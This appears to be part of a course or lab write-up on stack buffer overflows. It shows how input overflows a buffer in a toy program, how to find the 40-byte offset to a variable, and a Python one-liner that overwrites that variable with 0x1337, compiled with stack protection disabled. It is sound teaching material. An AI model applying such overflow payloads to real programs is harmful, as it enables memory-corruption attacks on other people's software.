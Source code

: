 

## Exercise 2: Buffer Overflows

When compiling, be sure to add the `-fno-stack-protector` flag.

### Part 1: Overflowing a Buffer

We can enter a "name" when prompted by the program.
If the name is short enough, we are greated accordingly and nothing else happens.
```
$ ./overflow1
Please enter your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
!
x == 42
```
If we choose an even longer input, we may see that there is some garbage data
printed after our "name".
Moreover, the value of `x` has changed to `4141414141414141`.
Since the ASCII value of `A` is `0x41`, we know that our input has overwritten
the variable `x`.
```
$ ./overflow1
Please enter your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
4þ!
x == 4141414141414141
```
If we choose an even longer input, the program crashes, but that is not
interesting for this exercise.

After trying a bit around, we can see that `x` is changed when we send more
than `0x28 = 40` bytes.
This tells us that the variable `x` is located `0x28 = 40` bytes after the
start of the buffer `name`.

<details><summary>Alternative way to find the offset</summary></details>

Now that we now the offset of `x`, we can overwrite it with the required value
`0x1337`.
Since `x` is a 64 bit integer and the architecture is little endian, this
corresponds to the byte sequence `b'\x37\x13\x00\x00\x00\x00\x00\x00'`
(for convenience, we can use the Python function `struct.pack('<Q', 0x1337)` to
obtain this).
```
$ python -c "import os, struct; os.write(1, b'A'*0x28 + struct.pack('<Q', 0x1337))" | ./overflow1 
Please enter your name: Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7!
x == 1337
Success!
```


### Part 2: Changing the Control Flow
